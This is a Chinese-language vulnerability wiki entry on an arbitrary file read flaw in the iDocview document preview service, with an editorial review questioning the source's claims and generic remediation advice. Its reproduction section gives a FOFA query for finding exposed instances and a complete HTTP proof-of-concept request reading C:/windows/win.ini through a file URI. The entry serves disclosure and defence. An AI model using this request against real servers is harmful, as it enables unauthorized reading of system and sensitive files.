


# iDocview任意文件读取

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：iDocview在线预览服务
- 文献类型：文件读取预警
- 版本、权限及部署边界：测试标识econage_11.8.6_20210730，file URI处理，示例带JSESSIONIDocv Cookie
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 版本可能含集成方econage构建，需与上游产品分支区分；桌面分类不当
2. Cookie存在但未说明匿名是否成功，不能归未授权读取
3. 漏洞状态已知在野、EXP公开和影响广无来源支持
4. 官方修复内容实际泛化建议且无厂商依据/安全版本，黑名单不足以替代协议与路径白名单
5. 请求未代码围栏，响应只截图；fofa元数据残缺

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

此在线文档预览系统是一套用于在Web环境中展示和预览各种文档类型的系统，如文本文档、电子表格、演示文稿、PDF文件等。此系统某接口存在任意文件读取漏洞。

# 影响范围

Version: econage_11.8.6_20210730

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="I Doc View"

POC/EXP：

GET /view/url?url=file:///C:/windows/win.ini HTTP/1.1
Host: 127.0.0.1:28080
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONIDocv=DAC1F92E30B9BECB756134EB26FAA9E7
Connection: close

# 修复方案

**官方修复：**

1、输入验证和过滤：对用户输入进行严格的验证和过滤，确保只允许访问预期的文件。这可以使用白名单或黑名单来实现，具体取决于你的需求和系统架构。

2、文件路径检查：在读取文件之前，验证用户请求的文件路径是否合法。可以使用绝对路径、相对路径或者基于应用程序特定的标识符来指定文件路径。确保路径解析是可靠的，并避免使用用户提供的输入直接拼接成路径。

3、权限控制：限制应用程序对文件系统的访问权限。确保应用程序只能访问必要的文件，而不能读取敏感文件或系统文件。使用操作系统级别的权限控制机制，如操作系统用户和文件权限设置。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
